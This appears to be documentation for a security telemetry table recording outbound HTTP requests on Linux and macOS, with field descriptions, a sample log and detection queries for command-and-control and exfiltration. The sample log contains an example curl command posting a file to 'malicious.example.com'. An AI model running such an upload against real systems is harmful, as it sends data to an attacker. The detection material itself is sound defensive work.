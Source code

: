 ## HttpRequest Table: HTTP Request Event

### 1. Table Name
**HttpRequest**

---

### 2. Table Usage
This table records outbound HTTP requests initiated by processes on Linux and macOS systems. It provides details about the request, including the method, host, path, and originating process, which is useful for monitoring web activity, detecting C2 communications, or identifying data exfiltration.

---

### 3. Important Parameter Description

| Parameter | Description | Platforms Affected |
|---|---|---|
| HttpPath | The path part of the HTTP request URL. | Linux, macOS |
| HttpHost | The host (domain name or IP address) to which the HTTP request was sent. | Linux, macOS |
| HttpMethod | The HTTP method used for the request (e.g., GET, POST, PUT). | Linux, macOS |
| RemoteAddressIP4 | The IPv4 address of the remote host to which the connection was made. | Linux, macOS |
| RemotePort | The remote port number used for the connection. | Linux, macOS |
| ImageFileName | The full path to an executable (PE) file. The context of this field provides more information as to its meaning. For ProcessRollup2 events, this is the full path to the main executable for the created process. | Linux, macOS |
| CommandLine | The command line used to create this process. May be empty in some circumstances. | Linux, macOS |

---

### 4. Sample Log Example

```json
{
  "HttpPath": "/api/v1/data",
  "HttpHost": "malicious.example.com",
  "HttpMethod": "POST",
  "RemoteAddressIP4": "192.0.2.100",
  "RemotePort": "443",
  "ImageFileName": "/usr/bin/curl",
  "CommandLine": "curl -X POST [https://malicious.example.com/api/v1/data](https://malicious.example.com/api/v1/data) -d @payload.json"
}
```
---

### 5. Example Queries
```xql
// Find all HTTP POST requests to a specific host
event_simpleName=HttpRequest HttpMethod=HTTP_METHOD_POST HttpHost="malicious.example.com"

// Identify HTTP requests originating from a suspicious image file
event_simpleName=HttpRequest ImageFileName="/usr/local/bin/backdoor_app"

// Find HTTP requests to a specific IP address on a given port
event_simpleName=HttpRequest RemoteAddressIP4="192.0.2.100" RemotePort="8080"

// Search for HTTP requests with specific keywords in the path or command line
event_simpleName=HttpRequest HttpPath="*exfil*" OR CommandLine="*upload_data*"

// Discover HTTP requests where HttpHost contains an unusual domain pattern
event_simpleName=HttpRequest HttpHost="*.xyz" OR HttpHost="*.top"
```
---